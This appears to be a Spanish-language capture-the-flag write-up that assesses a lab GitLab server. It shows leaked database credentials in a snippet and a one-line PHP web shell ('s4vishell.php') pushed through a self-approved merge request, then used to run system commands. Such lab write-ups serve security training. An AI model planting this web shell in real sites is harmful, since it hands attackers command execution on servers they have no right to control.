 ## Vulnerability Assessment {-}


### Gitlab {-}

Como hemos podido connectarnos, analyzamos el contenido del gitlab. 
Vemos que hay 2 repositorios. En el menu Activity vemos cosas interessante como una especie de **CI/CD** que permite
tras una merge request updatear el proyecto *Profile* automaticamente. Ademas la routa `/profile` estaba ocultada por el
**robots.txt**.

En el menu Snippets vemos un codigo php

```php
<?php
$db_connection = pg_connect("host=localhost dbname=profiles user=profiles password=profiles");
$result = pg_query($db_connection, "SELECT * FROM profiles");
```

#### Subimos un archivo php que nos permite ejecutar comandos {-}

Creamos un archivo `s4vishell.php` en el proyecto profile.

```php
<?php
    echo '<pre>' . shell_exec($_REQUEST['cmd']) . '</pre>';
?>
```

Hacemos un commit con este fichero y se nos crea una rama diferente de la **master** lo que significa que tenemos que crear una **Merge request**.
Una vez esta **Merge Request** creada, Vemos que la podemos acceptar sin problemas porque el proyecto nos apartenece.

Si vamos a la url `http://10.10.10.114/profile/s4vishell.php?cmd=whoami` Vemos que tenemos possibilidad de ejecutar comandos a nivel de systema.
